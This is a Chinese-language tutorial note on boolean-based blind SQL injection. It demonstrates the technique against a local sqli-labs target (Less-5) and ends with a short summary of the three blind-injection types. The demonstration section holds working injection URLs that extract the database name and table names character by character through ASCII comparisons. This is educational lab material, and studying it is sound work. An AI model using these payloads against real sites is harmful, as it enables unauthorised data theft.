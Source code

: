 ```yaml
---
title: 4.4SQL注入之布尔盲注
url: https://www.yuque.com/u29002979/ep2zrx/357dbb16b637fc4a1e35fff580d66803
---
```


<pre><code>SQL注入之布尔盲注
</code></pre>

<h3>1.什么是布尔盲注？</h3>
<p>Web的页面的仅仅会返回True和False。那么布尔盲注就是进行SQL注入之后然后根据页面返回的True或者是False来得到数据库中的相关信息。</p>
<p>返回False时：</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/a9e2622c9ab4426eb95db68e9bc76ae2.png" alt="image.png" class="align-none" /></p>
<p>返回True时：</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/61d6681f946648d39f5c46ce47d0285a.png" alt="image.png" class="align-none" /></p>
<h3>2.如何进行布尔盲注？</h3>
<p>注入流程：</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/65e35005c1d24fb085b94bf42339e5df.png" alt="image.png" class="align-none" /></p>
<h3>3.靶场案例演示：</h3>
<p>1.<strong> 猜解数据库的名字</strong></p>
<p>`http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))&gt;115--+ 非正常</p>
<p><a href="http://127.0.0.1/sql/Less-5/index.php?id=1" target="_blank">http://127.0.0.1/sql/Less-5/index.php?id=1</a>' and ascii(mid(database(),1,1))&gt;116--+ 非正常</p>
<p><a href="http://127.0.0.1/sql/Less-5/index.php?id=1" target="_blank">http://127.0.0.1/sql/Less-5/index.php?id=1</a>' and ascii(mid(database(),1,1))=115--+ 正常<br />
<a href="http://127.0.0.1/sql/less-5/index.php?id=1" target="_blank">http://127.0.0.1/sql/less-5/index.php?id=1</a>' and ascii(mid(database(),2,1))=101--+ 正常<br />
<a href="http://127.0.0.1/sql/less-5/index.php?id=1" target="_blank">http://127.0.0.1/sql/less-5/index.php?id=1</a>' and ascii(mid(database(),3,1))=99--+  正常`</p>
<p>如此就得到了</p>
<p>第一个字符的ASCII码为115解码出来为“s”</p>
<p>第二个字符的ASCII码为101解码出来为“e”</p>
<p>第二个字符的ASCII码为99解码出来为“c”</p>
<p>依次类推出数据库的名字为“security”</p>
<p>2.<strong>猜解表明名</strong></p>
<pre><code>http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+ 
正确
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=101--+ 正确
</code></pre>
<p>注：select下的limit是第几个表。</p>
<p>substr下的是截取的表内容。</p>
<p>当前库下（注入点连接的数据库）第一个表ASCII码为<strong>114  解码为r</strong></p>
<p>当前库下（注入点连接的数据库）第一个表ASCII码为<strong>101  解码为e</strong></p>
<p><strong>当前库下（注入点连接的数据库）第一个表ASCII码为....</strong>  解码为<strong> referer</strong></p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/02a961e381134335aec168900f9974ad.png" alt="image.png" class="align-none" /></p>
<h3>总结归纳：</h3>
<p>盲注分为三种：</p>
<p><strong>1.<a href="http://www.cnblogs.com/xishaonian/p/6103505.html%20" target="_blank">布尔型盲注</a>：</strong> 根据页面返回的真假来判断的即为<strong>布尔型盲注</strong></p>
<p><strong>2.<a href="9ed06a9fbab342f27802e5d31a0f06d7" target="_blank">时间型盲注</a>：</strong> 根据页面返回的时间来判断的即为<strong>时间型盲注</strong></p>
<p><strong>3.报错型盲注</strong> ：根据页面返回的对错来判断的即为<strong>报错型盲注</strong></p>
